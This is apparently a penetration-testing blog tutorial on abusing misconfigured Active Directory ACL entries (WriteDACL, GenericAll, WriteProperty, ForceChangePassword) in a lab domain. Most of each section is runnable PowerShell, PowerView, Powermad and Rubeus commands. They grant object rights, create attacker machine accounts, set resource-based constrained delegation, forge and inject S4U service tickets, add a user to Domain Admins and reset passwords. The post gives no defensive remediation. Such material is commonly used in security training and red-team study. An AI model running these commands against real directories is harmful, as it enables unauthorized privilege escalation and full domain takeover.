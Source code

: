 ```yaml
---
title: 'Abusing Active Directory ACL-ACE'
date: '2019-06-15'
layout: post
tag: [tutorial, AD]
excerpt: >-
  Abusing Windows Access Control List and Access Control Entries
description: >-
  Abusing Windows Access Control List and Access Control Entries
image: '/images/posts/abusing-ace/abusing-acl.png'
thumb_image: '/images/posts/abusing-ace/abusing-acl.png'
---
```


# Introduction

Access privileges for resources in Active Directory Domain Services are usually granted through the use of an Access Control Entry (ACE). 

Access Control List entries describe the allowed and denied permissions for a principal in Active Directory against a securable object (user, group, computer, container, organization unit (OU), GPO etc..) DACLs (Active Directory Discretionary Access Control Lists) are lists made of ACEs (Access Control Entries) that identify the users and groups that are allowed or denied access to an object. When we have misconfigured, ACEs can be abused to operate lateral movement or privilege escalation within an AD domain. 

An example of ACEs for the “Domain Admins” securable object can be seen here:

![](/images/posts/abusing-ace/abusing-active-directory-aclace.png)

Active Directory offers a variety of permission types to set up an ACE.  
From an attacker’s point of view, the following permission types are particularly interesting:

- **WriteDACL** – modify the object’s ACEs and give an attacker complete control right over the object 
- **GenericAll** – full rights to the object (add users to a group or reset user’s password) 
- **GenericWrite** – update object’s attributes (i.e. logon script) 
- **WriteOwner** – change object owner to attacker controlled user to take over the object 
- **AllExtendedRights** – the ability to add a user to a group or reset a password 
- **ForceChangePassword** – the ability to change the user’s password 

## WriteDacl

The writeDACL permissions allow an identity to fully control rights over the designated object. 
This means they can modify access control lists (ACL) to gain higher privileges, like becoming a domain administrator or gaining specific user rights.

It’s important to be aware of the risks, especially if someone can modify the ACL of an Active Directory (AD) object and assign permissions that allow them to read and write specific attributes, such as changing an account name or resetting a password.

Abusing writeDACL to a computer object can be used to gain the GenericAll privilege. 
It’s crucial to authenticate to the Domain Controller when running a process as a user without writeDACL rights.

Additionally, using the Powerview module Add-DomainObjectAcl requires creating a PSCredential object first.

```powershell
SecPassword = ConvertTo-SecureString 'Password@1' -AsPlainText -Force 
$Cred = New-Object System.Management.Automation.PSCredential('first.local\\admin.user', $SecPassword) 
Add-DomainObjectAcl -Credential $Cred -TargetIdentity FIRST-DC  -PrincipalIdentity writedacldc.user -Rights All
```

![](/images/posts/abusing-ace/Pasted-image-20231211174126.png)

Once we have granted this privilege, we can execute a resource based constrained delegation attack. 
First, if an attacker does not control an account with an SPN set, 
Powermad can be used to add a new attacker-controlled computer account: 

```powershell
New-MachineAccount -MachineAccount attacker system -Password $(ConvertTo-SecureString 'Password@1' -AsPlainText -Force)
```

![](/images/posts/abusing-ace/Pasted-image-20231211174134.png)

PowerView can be used to retrieve then the security identifier (SID) of the newly created computer account: 

```powershell
$ComputerSid = Get-DomainComputer attacker system -Properties objectsid | Select -Expand objectsid
```

We now need to build a generic ACE with the attacker-added computer SID as the principal, and get the binary bytes for the new DACL/ACE: 

```powershell
$SD = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList "O:BAD:(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;$($ComputerSid))" 
$SDBytes = New-Object byte[] ($SD.BinaryLength) 
$SD.GetBinaryForm($SDBytes, 0)
```

Next, we need to set this newly created security descriptor in the msDS-AllowedToActOnBehalfOfOtherIdentity field of the comptuer account we’re taking over, again using PowerView in this case: 

```powershell
Get-DomainComputer $TargetComputer | Set-DomainObject -Set @{‘msds-allowedtoactonbehalfofotheridentity’=$SDBytes}
```

We can then use Rubeus to hash the plaintext password into its RC4_HMAC form 

```powershell
Rubeus.exe hash /password:Password@1
```

![](/images/posts/abusing-ace/rubeus-exe-hash.png)

And the _s4u_ module to get a service ticket for the service name we want to pretend to be an admin for. 
This ticket is injected into memory and in this case grants us access to the file system of the FIRST-DC: 

```powershell
Rubeus.exe s4u /user:attackersystem$ /rc4:64FBAE31CC352FC26AF97CBDEF151E03 /impersonateuser:admin /msdsspn:cifs/FIRST-DC.first.local /ptt
```

![](/images/posts/abusing-ace/rubeus-exe-hash-1.png)

![](/images/posts/abusing-ace/rubeus-exe-hash_.png)

![](/images/posts/abusing-ace/rubeus-exe-s4u.png)

## GenericAll

The GenericAll permission provides write access to all properties (add users to a group or reset the user’s password).
 _The right to read permissions on this object, write all the properties on this object, and perform all validated writes to this object._ 

Example: If the attacker has GenericAll over any target, then he doesn’t have to know the target user’s password. 
He can execute a force password reset using **Set-DomainUserPassword** to a known value.

Using powerview, we will check if our user has GenericAll rights on the Domain Controller (First-DC) 

```powershell
Get-ObjectAcl -SamAccountName first-dc | ?{$_.ActiveDirectoryRights -eq "GenericAll"} 
```

![](/images/posts/abusing-ace/get-objectacl-samaccountname-first-dc.png)

We can see that our user has the GenericAllrights, effectively enabling the user to take over the DC: 
Generic write to a computer object can be used to perform a resource based constrained delegation attack. 
We will use Powermad to add a new attacker-controlled computer account 

```powershell
New-MachineAccount -MachineAccount genallcomp -Password $(ConvertTo-SecureString 'Password!' -AsPlainText -Force)
```

PowerView can be used to retrieve then the security identifier (SID) of the newly created computer account: 

```powershell
$ComputerSid = Get-DomainComputer genallcomp -Properties objectsid | Select -Expand objectsid 
```

We now need to build a generic ACE with the attacker-added computer SID as the principal, and get the binary bytes for the new DACL/ACE: 

```powershell
$SD = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList "O:BAD:(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;$($ComputerSid))" 
$SDBytes = New-Object byte[] ($SD.BinaryLength) 
$SD.GetBinaryForm($SDBytes, 0)
```

Next, we need to set this newly created security descriptor in the msDS-AllowedToActOnBehalfOfOtherIdentity field of the computer account we’re taking over, again using PowerView in this case: 

```powershell
Get-DomainComputer $TargetComputer | Set-DomainObject -Set @{‘msds-allowedtoactonbehalfofotheridentity’=$SDBytes} 

Rubeus.exe hash /password:Password!
```

![](/images/posts/abusing-ace/rubeus-exe-hash-password.png)

Finally, we can use Rubeus’ _s4u_ module to get a service ticket for the service name we want to “pretend” to be “admin” for. 
This ticket is injected in memory, and in this case grants us access to the file system of the FIRST-DC: 

```powershell
Rubeus.exe s4u /user:genallcomp$ /rc4:FBDCD5041C96DDBD82224270B57F11FC /impersonateuser:admin /msdsspn:cifs/FIRST-DC.first.local /ptt 
```

![](/images/posts/abusing-ace/rubeus-exe-s4u-user-genallcomp.png)

![](/images/posts/abusing-ace/rubeus-exe-s4u-user-genallcomp_.png)

![](/images/posts/abusing-ace/genericwrite.png)


GenericAll / GenericWrite / Write on Computer 

If you have rights you can perform a resource based constrained delegation 

## WriteProperty (Self-Membership)

If our user has WriteProperty right on All objects for the Domain Admin group: 

We can again add ourselves to the Domain Admins group and escalate privileges: 

```powershell
net user gpowrite.user /domain; Add-NetGroupUser -UserName gpowrite.user -GroupName "domain admins" -Domain "first.local"; net user gpowrite.user /domain 
```

![](/images/posts/abusing-ace/gpowrite-user.png)


## ForceChangePassword

If we have ExtendedRight on User-Force-Change-Password object type, we can reset the user’s password without knowing their current password: 

Using PowerView: 

```powershell
Set-DomainUserPassword -Identity gpowrite.user -Verbose 
```

![](/images/posts/abusing-ace/forcechangepassword.png)




















